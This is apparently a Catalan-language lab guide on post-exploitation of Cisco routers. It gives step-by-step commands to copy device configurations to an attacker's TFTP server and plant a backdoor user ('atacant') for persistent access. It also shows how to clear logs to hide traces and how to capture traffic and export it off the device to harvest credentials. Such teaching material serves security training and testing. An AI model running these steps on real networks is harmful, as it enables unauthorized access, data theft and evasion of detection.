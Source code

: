 ## Fitxers de Configuració de Dispositius  
  
### Arxius Startup-config i Running-config  

--- 

### Obtenció d'arxiu de configuracions

#### Requisitis  
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Tot i que no es tracta d'una explotació o atac en si, la tecnica d'obtenció d'arxius de configuració pot resultar molt
important a l'hora de dur a terme d'altres atacs o per assolir persistencia en accions de post-explotació. A banda d'aixó
permetrà obtenir informació que potser no s'ha descobert mitjançant l'escaneig del dispositiu, i en general millorarà la
qualitat d'informació de la que disposem d'aquest. Cal notar que per a cada model de dispositiu les comandes poden variar,
així doncs caldrà disposar dels manuals corresponents per aquells dispositius amb els que s'estigui treballant.

#### Comandes a dispositius cisco  
`copy running-config <ftp/tftp>`  
`<servidor_destí/remote_host>`  
`<nom_fitxer>`  

#### Execució  
Una vegada s'ha obtingut accés privilegiat a un dispositiu, es pot trobar tota la configuració d'arrancada al fitxer 
**startup-config** i la configuració actual de funcionament a **running-config**. Existeix una comanda cisco per descarregar
aquesta informació a través de protocols tftp i ftp. Partint de que aquests ja es troben instalats a la màquina atacant,
es procedeix a descarregar-los. El directori per defecte on s'emmagatzemaran és `/srv/ftp` o `/srv/tftp`, i per a que es
pugui descarregar correctament l'arxiu al servidor s'haurà de crear per avançat l'arxiu que s'utilitzarà com a destí.
Addicionalment s'ha de canviar els permisos d'aquests arxius per que es pugui escriure sobre aquests.

`cd /srv/tftp`  
`touch running-config.txt startup-config.txt`  
`chmod 777 running-config.txt`  
`chmod 777 startup-config.txt`  

S'executen les comandes per a copiar els arxius

`copy running-config tftp`  
`192.168.3.2`  
`running-config.txt`  

`copy startup-config tftp`  
`192.168.3.2`  
`startup-config.txt`  

![img.png](img.png)  

Una vegada descarregats i emmagatzemats al directori corresponent es pot analitzar el seu contingut.

![img.png](img.png)  

Rarament resultarà tant senzill, pero d'assolir aquest nivell d'accés es podria dir que es te control gairebe complert 
sobre aquell domini de la xarxa i totes les funcions o serveis que el dispositiu pogués oferir.

---  

### Càrrega d'arxiu de configuracions  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

La descàrrega dels arxius de configuració pot semblar que no afegeix molt de valor ja que ja es disposava d'accés privilegiat 
al dispositiu. Un ús que es pot donar a aquests arxius i que es descriu més endavant a **atacs Synflood** és la càrrega 
d'arxius d'arrencada modificats al dispositiu, de cara a modificar-ne la configuració d'una manera més subtil que no pas
directament sobre la CLI del dispositiu, fet que pot deixar una petjada molt reconeixible en forma de logs.

#### Comandes a dispositius cisco  
`copy <ftp/tftp>: <arxiu> `  
`<servidor_destí/remote_host>`  
`<nom_fitxer_destí>`  

#### Execució    
Una vegada descarregats els arxius de configuració d'un dispositiu, un dels objectius és de disposar de permanencia d'accés
per si es modifiquessin les claus o noms d'usuaris que s'han utilitzat per accedir en primer lloc al dispositiu. Per a fer-ho
s'afegiran credencials a la configuració del dispositiu per a que quan aquest es pugui arribar a reiniciar, que aquestes modificacions
s'apliquin.

Modifiquem l'arxiu corresponent que s'ha descarregat a l'anterior exemple. S'afegeix un usuari i una clau d'accés en la 
forma següent:
> username atacant password 0 persistencia

Carreguem l'arxiu i una vegada carregadt, i per a exemplificar el cas, es realitza un reinici forçat del dispositiu per 
comprobar que la nova configuració inclou les nostres credencials, en el cas real aquest reinici es realitzaria per part
de la víctima en un moment indeterminat.

`copy tftp: startup-config`
`192.168.3.2`
`<enter>`

![img_1.png](img_1.png)

S'intenta accedir al dispositiu amb les credencials per determinar si s'ha realitzat correctament el procediment

![img_2.png](img_2.png)

Ja es disposa de permanencia al dispositiu. Si be aquesta és fàcil de revertir en cas de ser descoberta, caldrà que s'analitzi
al detall l'arxiu de configuració en primer lloc. Addicionalment es pot mirar de netejar els *logs* mitjançant la comanda
`clear log` o `clear logging` per a que no quedi rastre de les accions dutes a terme, tot i que un resgistre de *logs*
buits tambe podria despertar certes sospites.

---  

### Captura de paquets i exportació de fitxer .pcap per al seu anàlisi  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Com amb els anteriors dos exemples, aquesta técnica no es tracta d'un atac sinó d'una eina utilitzada normalment per analitzar
el funcionament d'una xarxa, pero serà de molta ajuda coneixer el seu ús quan es disposi d'una posició MiTM i es vulgui capturar
informació que servirà de cara a altres atacs.

#### Execució    
L'execució d'aquesta técnica és senzilla i pot variar segons els models amb els que s'estigui treballant. En el cas dels
models Cisco que s'han descobert a la xarxa, una vegada s'hagi accedit a aquests, es configuraran per a realitzar tasques
de captures de paquets a emmagatzemar en un buffer que despres es podrà exportar.

Les comandes de configuració per a la captura de paquets sobre una interfície concreta del dispositiu són les següents:

>monitor capture buffer MiTM_PCAP_BUFF size 2048 max-size 1024 circular  
>monitor capture point ip cef MiTM_PCAP_POINT g0/0 both  
>monitor capture point tcp MiTM_PCAP_POINT_TCP both filter ipv4   
>  
>ip access-list extended PCAP  
>permit icmp host 100.64.0.130 any  
>permit icmp any host 100.64.0.130  
>   
>monitor capture point associate MiTM_PCAP_POINT MiTM_PCAP_BUFF  
>monitor capture point associate MiTM_PCAP_POINT_TCP MiTM_PCAP_BUFF  
>   
>monitor capture point start MiTM_PCAP_POINT  
>monitor capture point start MiTM_PCAP_POINT_TCP  

Una vegada s'han capturat paquets, els buffers es poden exportar a un servidor tftp per a ser examinats amb wireshark des de 
la màquina atacant:

> monitor capture buffer MiTM_PCAP_BUFF export tftp://192.168.3.2/capture.pcap  

Informació útil que cercarem entre d'altres són paquets de protocols d'encaminament, credencials en text en clar i d'altres
paquets que puguin millorar el coneixement de la xarxa del que es disposa.  

> **Note**  
> Cal tenir en conte que segons regles de tallafocs o ACL existents és possible que no es pugui realitzar l'exportació.
> Caldrà modificar aquestes de manera temporal per permetre el trànsit de paquets tftp.


